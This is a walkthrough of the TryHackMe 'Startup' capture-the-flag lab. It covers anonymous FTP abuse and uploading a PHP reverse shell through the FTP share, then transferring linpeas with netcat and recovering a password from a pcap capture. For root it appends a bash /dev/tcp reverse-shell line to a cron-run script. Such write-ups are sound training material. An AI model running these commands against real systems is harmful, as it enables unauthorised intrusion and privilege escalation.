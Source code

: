 # Startup

- What is the secret spicy soup recipe?

	- `nmap -sV 10.10.96.10`
	- `ftp <TARGET_IP>` in anonymous mode
	- `mget *`
	- `gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- The same files I get with ftp there are on http://<TARGET_IP>/files
	- Put a reverse shell in the ftp server.
	- `wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`
	- Change the default IP with your IP address.
	- `cd ftp` and `put php-reverse-shell.php` inside ftp.
	- `nc -lvnp 1234` on your machine
	- Execute it clicking on the link in http://<TARGET_IP>/files
	- `cat recipe.txt`
	- `love`	

- What are the contents of user.txt?

	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- On your machine `wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`
	- Serve that file. `nc -lnvp 4444 < linpeas.sh`
	- on target `nc -w 3 <YOUR_IP> 4444 > linpeas.sh`
	- There are some important files I didn't notice.
	- `/incidents/suspicious.pcapng`
	- Serve this fie via nc as before.
	- Grab that file with your machine.
	- `wireshark suspicious.pcapng`
	- At a certain point, looking into packets, you will see a packet saying `password for www-data:`. The next packet will have the password in clear text.
	- `THM{03c**d61******bfb3**********0e79}`

- What are the contents of root.txt?

	- Analyzing lennie's files I see there is a script floder, but I don't have permission to write in planner.sh.
	- Trying with /etc/print.sh worked.
	- On your machine `nc -lnvp 4444`.
	- `echo "bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1" >> /etc/print.sh` and wait about 1-2 minutes.
	- `cat /root/root.txt`
	- `THM{f963**a6a******22**********76d}`

- Congratulations!

	no answer needed







